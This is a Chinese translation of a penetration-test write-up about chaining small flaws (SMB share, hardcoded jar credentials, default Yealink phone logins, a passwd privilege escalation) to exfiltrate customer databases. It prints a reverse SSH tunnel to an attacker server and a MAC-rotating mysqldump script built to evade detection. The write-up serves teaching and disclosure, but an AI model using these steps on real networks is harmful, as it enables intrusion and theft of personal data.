# 链接多个漏洞，泄漏超过 250GB 的 PIA

> 原文：<https://infosecwriteups.com/chaining-multiple-vulnerabilities-to-exfiltrate-over-250gb-of-pia-2d624f030ed1?source=collection_archive---------0----------------------->

这是我们几年前做的一次内部测试的记录，涉及几个小漏洞，但让我们成功地泄露了大量信息。

一切都是从我们所在的一个小型内部子网的 Nmap 扫描开始的。我们没有找到任何有希望的线索，除了一个暴露的 SMB 共享，这显然是一个开发人员在本地创建的，用于在计算机之间共享文件。扫描显示类似这样的东西。



nmap 扫描的部分结果

我们成功地用 impacket 的 smbclient.py 检查了访问。



smbclient.py

我们找不到任何有用的明文信息或任何敏感数据。但是再看一眼，我们发现了一个有趣的文件:



自定义 jar 文件

这看起来像一个定制的 jar 文件。信息不会是纯文本的，但是我们继续用 java-decompiler ( `https://github.com/java-decompiler/jd-gui.git).`)反编译文件

我们克隆了存储库，编译了所有内容，并在 jar 文件中运行它:



开始构建


打开结果文件

之后，java-decompiler 的窗口将会打开。此时，您唯一需要做的事情就是拖放您想要分析的编译好的 jar 文件。



Java 反编译程序

我不打算上传完整源代码的截图，但我们确实在其中发现了一些有趣的信息:



数据库连接密码的源代码



源代码中的数据库连接细节

我们兴奋地开始扫描那些 IP。令我们失望的是，他们都倒下了，没有数据库被发现。我们开始对相邻子网进行全端口扫描，希望它们能够重复使用凭据。几个小时后，我们找到了运行在 10.40.0.0/16 子网的端口 3033 上的 SQL server。

我们通过重复使用凭据进行连接。令我们惊讶的是，我们发现了超过 50 个与业务相关的表，数据超过 700GB(由于明显的原因而被删除)。



通过重复使用凭据危害数据库

为了让您对找到的信息量有个概念，它们是大约 1600 万个客户电子邮件地址:


客户电子邮件地址

在另一个表中，我们发现了另外 1600 万笔交易的记录，包括客户数据、电子邮件地址和购买细节。另一个表有超过 20 万条记录，记录了完整的信用卡号。

这一切都很棒(至少对我们来说)，但圣灵降临节并没有到此结束。我们需要一种方法来泄漏这些信息。在全部 700GB 的数据中，大约有 270GB 的可用关键数据。但是我们需要证明拥有临时访问权限的内部攻击者能够破解这个。DB 服务器的硬件在运行查询方面非常出色，我们能够在不到几个小时的时间内分析大部分信息，但是当我们试图下载它时，我们确实受到了网络速度的限制。此外，每天向一台客户端计算机下载超过 200GB 的数据可能会触发一些 NIDS 规则，并警告他们存在危害。最后，这个共享只能从网络内部访问，这意味着我们需要一个类似反向 ssh 连接的东西，连接到一个公共的攻击者控制的服务器。

让我更好地解释这个 ssh 连接是如何工作的。通常，当您危害公司网络内部的设备时，您不能简单地启动该机器上的连接监听器。通常情况下，设备位于几个防火墙、NAT 网络等之后。阻止你从外面进入。绕过这一点的最简单的方法之一是启动一个反向 shell。这是因为连接来自内部，并到达您控制的外部服务器(通常允许出口流量，仅过滤入口流量)。但是这也有不太可靠的缺点。你不想要一个单一的连接，你想要一个类似服务/守护进程的东西，以防出现问题。此外，通过 msfvenom 生成的有效载荷不会像已经使用了很久的软件(类似 ssh 的东西)那样可靠。

你要做的就是使用一种叫做 ssh 隧道的 ssh 功能。基本上，您生成一个到外部的 ssh 连接，如下所示:

```
ssh -R 8080:127.0.0.1:22 -N -f user@remote.host
```

-N 指定你不想运行任何命令，只需要建立一个连接，而-f 是将进程发送到后台。这将在您可访问互联网的主机(remote.host)的端口 8080 上打开一个套接字。到该端口的任何连接都将被转发到受损机器的端口 22(ssh)。因此，在连接到 remote.host 后，您只需:

```
ssh -p 8080 compromiseduser@localhost
```

你将能够从公司网络外部访问被入侵的机器。

解释完这些，让我们继续进行 pentest。我们决定，我们需要找到一台 24/7 开机、安全性差且能访问网络的设备。这当然意味着物联网设备。

对于那些不熟悉这个概念的人来说，物联网是技术人员指通常不需要互联网接入就能工作的设备的一种方式。但是他们把它作为一个特性，而且通常安全性很差。想想像 Roombas、冰箱、咖啡机、电视等东西……(这个定义不是 100%准确，你可以在[https://en.wikipedia.org/wiki/Internet_of_things](https://en.wikipedia.org/wiki/Internet_of_things)上阅读更多关于物联网的信息)

扫描网络时，我们发现超过 100 台设备可以被定义为物联网设备。有 3 个主要群体:闭路电视摄像机，电视和 IP 电话。电视不是全天候的，所以它们不会工作。这些手机都是 Yealink 的，经过简单的研究，我们发现了多种可用的漏洞。



我们找到的型号是 yealink T20P。



Yealink 的可用漏洞

在阅读了[https://www.exploit-db.com/exploits/23572,](https://www.exploit-db.com/exploits/23572)之后，我们学习了一种启用 telnet 服务器的方法。一个隐藏页面，位于`http://<IP>/cgi-bin/ConfigManApp.com?Id=10.`



Yealink 管理网页。

我们能够使用默认凭证 **admin:admin** 登录(物联网设备中的常见问题)。启用 telnet 服务器后，我们使用 admin/admin 登录电话，却发现 admin 用户与 root 用户不同。



登录到 telnet 服务器的管理员

为了连接到我们控制的公共实例，我们需要一个 ssh 连接。这意味着拥有对设备的根访问权限。大多数可用的利用都假设您可以打印影子文件，因此您拥有 root 访问权限，但是如果您看一看，就会发现每个人都拥有对影子文件的读取权限(不要问我们为什么要这样配置)。该设备没有我们正在寻找的 ssh 功能，所以我们必须安装新软件。这意味着我们需要 root 权限，并且只能是 root 权限。看到所有发现的漏洞，我们怀疑这个模型应该不是特别安全，我们发现了一个新的简单的权限提升。

如果您看一下前面的图像，您可以看到 shadow 文件对所有人都是可读的，并且归 root 所有，但是 passwd 文件由于某种原因实际上归 guest 帐户所有(我们发誓这是默认配置)。所以您实际上可以作为 guest:guest 登录，并编辑 passwd 文件以绕过影子哈希检查(您只需要删除第二个字段中的“x ”,就可以不用密码登录了)。



根访问

在找到电话的根之后，我们必须为这个特定的 busybox 发行版静态编译一个版本的 dropbear(一个小型 ssh 服务器)。不幸的是，我无法再使用这部手机来重现这个过程，此外，这超出了本文的范围。这是一个漫长的过程，有很多尝试和错误。回想起来，如果让我再做一次，我可能会用考拉([https://github.com/mrschyte/pentestkoala](https://github.com/mrschyte/pentestkoala))这样的东西。

当 ssh 服务器工作时，我们想出了一个简单的 bash 脚本来绕过可能的 HIDS 系统。我们不想用同一个 IP 下载所有不同的数据库，以防止超过可能的下载阈值。在用 macchanger 做了一个快速测试和手动 DHCP 释放之后，我们验证了我们分配的 IP 依赖于我们的 mac 地址。所以我们用这个脚本下载了数据库:

```
#!/bin/bash
for i in importantdb1 importantdb2 importantdb3 importantdb4; do
 dhclient -r enp0s25
 sleep 10
 macchanger - random enp0s25
 dhclient enp0s25
 sleep 40
 mysqldump - verbose -u root -prootspi949 -h 10.40.59.10 -P 3033 $i >> /tmp/compromisedDb/$i.sql
done
```

为了安全起见，我们可能会在每个表下载中循环使用我们的 IP 地址，而不是在每个数据库中，但是这样做效果很好。

回顾这次测试，我们开发了一个

*   公共中小企业股份
*   未经混淆编译的二进制文件
*   凭证重用
*   默认密码
*   不安全的设备
*   网络 ids 规则配置不正确
*   缺少网络认证(802.1x 可以防止频繁的 IP 变更)

如果你单独看每一个，它们并不是你能找到的最严重的漏洞，但是把它们连接起来就可以完全妥协。希望这对你和我们一样有教育意义。